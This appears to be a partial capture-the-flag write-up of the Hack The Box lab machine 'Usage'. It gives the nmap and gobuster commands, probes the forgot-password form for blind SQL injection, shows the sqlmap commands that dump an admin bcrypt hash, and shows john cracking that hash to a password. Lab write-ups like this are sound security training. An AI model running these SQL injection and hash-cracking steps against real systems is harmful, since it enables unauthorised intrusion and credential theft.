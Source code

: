 ## 🧠 HTB Machine: Usage (Retired) – Partial Writeup

**Difficulty:** Easy  

**Operating System:** Linux  

**Tech Stack:** Laravel, MySQL, Nginx  

**Focus Areas:** SQL Injection, Hash Cracking, Web Enumeration

---

## 🛰️ Reconnaissance

Initial `nmap` scan revealed:


- `22/tcp` – OpenSSH 8.9p1  

- `80/tcp` – nginx 1.18.0, redirecting to `usage.htb`

```bash

nmap -sC -sV -oA usage_scan 10.10.11.18

```

---
## 🌐 Web Enumeration

Visiting `http://usage.htb` revealed a Laravel-based login page.  

Cookie analysis (`laravel_session`, `XSRF-TOKEN`) confirmed Laravel backend.  

No useful error messages on failed login attempts.

---
## 🔍 Gobuster Scan

```bash

gobuster dir -u http://usage.htb -w /usr/share/wordlists/dirb/common.txt -x php,txt,html

```

- Server returned repeated `503 Service Unavailable` responses due to overload.  

- As per IppSec’s strategy, directory brute-force was halted and focus shifted to login functionality.

---

## 🔐 Vulnerability Discovery

### 📌 Blind SQL Injection in Forgot Password form

- Sending `'` as the email caused a `500 Internal Server Error`.

- Using `' --` suppressed the error, confirming boolean-based SQLi.

---

## 📦 SQLMap Usage


```bash

sqlmap -r reset_request.txt -p email --level 5 --risk 3 --technique=B --batch

```

✅ **Result:** Parameter `email` is vulnerable to **boolean-based blind SQLi**.  

**Backend:** MySQL ≥ 8.0, **Web server:** nginx, **OS:** Ubuntu

---

## 🧱 Database Extraction

```bash

sqlmap -r reset_request.txt -p email --dbs

```

🎯 Target DB: `usage_blog`

```bash

sqlmap -r reset_request.txt -p email -D usage_blog --tables

```

🗂️ Found tables: `admin_users`, `users`, `password_reset_tokens`, etc.

```bash

sqlmap -r reset_request.txt -p email -D usage_blog -T admin_users --dump

```

🧑‍💼 Extracted 1 user:

- **Username:** `admin`  

- **Password (bcrypt):** `$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2`

---

## 🔓 Password Cracking

Used `john` with the rockyou wordlist:

```bash

john admin_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

```

✅ Recovered password: **`whatever1`**

---
## ❗ Login Attempt Blocked

Despite correct credentials (`admin : whatever1`), login via `/login` did not succeed due to instability or backend issues.  

Tested across multiple browsers and sessions.

---
## ✅ Conclusion

This machine demonstrated a full web exploitation flow:

🔹 Web enum ➝  

🔹 Blind SQLi ➝  

🔹 DB extract ➝  

🔹 Password cracking
  
Although the final login step was unsuccessful, the credentials were confirmed and the attack chain is complete.

---
**Status:** ✅ Documented | 🚫 No root access | 🔐 Admin creds obtained | 🧠 Skills demonstrated
